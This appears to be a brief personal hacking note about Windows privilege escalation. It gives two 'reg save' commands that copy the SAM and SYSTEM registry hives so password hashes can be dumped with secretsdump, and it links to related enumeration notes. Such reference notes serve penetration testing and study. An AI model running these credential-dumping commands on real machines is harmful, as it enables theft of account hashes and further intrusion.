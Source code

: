 # dos commands admin / system dump registry secretsdump hashes
reg save HKLM\sam sam
reg save HKLM\system system

# References
- [20221003151110](/zet/20221003151110/README.md) dos commands admin / system
- ~/kb/hacking/windows/dos-and-powershell-enumeration-quick.md

Tags:
    #assorted #hacking #windows #dos
